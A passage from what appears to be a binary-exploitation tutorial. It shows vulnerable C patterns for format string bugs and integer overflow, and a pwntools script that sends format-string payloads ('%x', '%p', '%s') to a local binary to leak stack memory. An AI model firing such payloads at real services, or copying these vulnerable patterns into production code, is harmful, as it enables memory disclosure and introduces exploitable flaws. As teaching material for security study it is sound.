 ### 2. Format String Vulnerabilities

#### Identification
```c
// Vulnerable patterns:
printf(user_input);           // Direct user input to printf
fprintf(file, user_input);    // Same issue with fprintf
snprintf(buffer, size, user_input); // Can leak memory
```

#### Exploitation Basics
```python
# File: format_string_exploit.py
#!/usr/bin/env python3

from pwn import *

def test_format_string(binary_path):
    """Test for format string vulnerability"""
    p = process(binary_path)
    
    # Test payloads
    test_payloads = [
        b"%x" * 10,           # Leak stack values
        b"%p" * 5,            # Leak pointers
        b"%s",                # Potential crash
        b"AAAA" + b"%x" * 20, # Find position of input
    ]
    
    for payload in test_payloads:
        try:
            p = process(binary_path)
            p.sendline(payload)
            response = p.recv(timeout=2)
            print(f"Payload: {payload}")
            print(f"Response: {response}")
            print("-" * 40)
            p.close()
        except:
            print(f"Payload {payload} caused crash or timeout")

# Example usage
if __name__ == "__main__":
    test_format_string("./format_vuln_binary")
```

*[Screenshot placeholder: Format string vulnerability output showing leaked memory values]*

### 3. Integer Overflow

#### Identification
```c
// Look for patterns like:
int size;
scanf("%d", &size);
char* buffer = malloc(size);  // What if size < 0?

unsigned int length;
scanf("%u", &length);
if (length > MAX_SIZE) {      // What if length wraps around?
    return -1;
}
char buffer[length];
```
